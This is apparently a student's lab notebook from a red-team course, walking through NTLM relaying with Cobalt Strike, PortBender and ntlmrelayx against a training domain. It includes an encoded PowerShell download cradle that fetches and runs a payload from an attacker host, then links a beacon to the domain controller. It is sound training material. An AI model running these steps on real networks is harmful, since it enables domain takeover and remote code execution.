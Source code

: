 ## NTLM Relaying
### Setup
On WKSTN-2 as System allow ports inbound on firewall
```powershell
beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```
![[Pasted image 20230829154704.png]]
Start two reverse port forwards - 1st for SMB capture, the other for Powershell cradle.
```powershell
beacon> rportfwd 8445 localhost 445
[+] started reverse port forward on 8445 to localhost:445

beacon> rportfwd 8080 localhost 80
[+] started reverse port forward on 8080 to localhost:80
```
![[Pasted image 20230829154734.png]]
Setup socks proxy that ntlmrelayx uses to send responses back to network.
```powershell
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
Setting up SMB File payload hosting:
TO SET UP SMB FILE HOST GO TO SITE - ON COBALT STRIKE  SITE MANAGEMENT -> HOST FILE -> SPECIFY LOCATION SUCH AS /B ADD A PAYLOAD AND ENSURE IT IS FACING THE TEAM SERVER IP ADDRESS 
![[Pasted image 20230829142817.png]]
![[Pasted image 20230829142841.png]]
![[Pasted image 20230829155759.png]]
### NTLM Relay start
This command was given to us.
```powershell
# use this specific proxychains command on ATTACKER LINUX
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='
```
Where:
- 10.10.122.10 is the IP address of `dc-2.dev.cyberbotic.io`, which is our target.
- The encoded command is a download cradle pointing at `http://10.10.123.102:8080/b`, and `/b` is an SMB payload.
![[Pasted image 20230829143031.png]]
Upload WinDivert64.sys to WKS-2 
```bash
# this is all done in the system WKS 2
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
![[Pasted image 20230829143308.png]]
ls'ing to ensure that file was uploaded
![[Pasted image 20230829143336.png]]
Then go to _Cobalt Strike > Script Manager_ and load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.
![[Pasted image 20230829143427.png]]
![[Pasted image 20230829143448.png]]
Utilize portbender to push traffic from smb port to 8445
`This pretty much breaks any legitimate SMB service on the machine.`
```powershell
beacon> PortBender redirect 445 8445
```
![[Pasted image 20230829153908.png]]
To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to Workstation 2.  Let's do it manually for now, by using the console of Workstation 1 as the user nlamb.  This user is a domain admin, so we can relay the authentication request to the domain controller.
This is done on WKSTN-1
```powershell
C:\Users\nlamb>hostname
C:\Users\nlamb>dir \\10.10.123.102\relayme
```
![[Pasted image 20230829154522.png]]

This didnt work for me.
The fix was to change the /etc/proxychains to port 1080
![[Pasted image 20230830135218.png]]

Shows that the file was grabbed in the web log
![[Pasted image 20230830135351.png]]

beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-55d3272f-cf2f-4958-90dd-18468b6b1337

On as DC02
![[Pasted image 20230830141607.png]]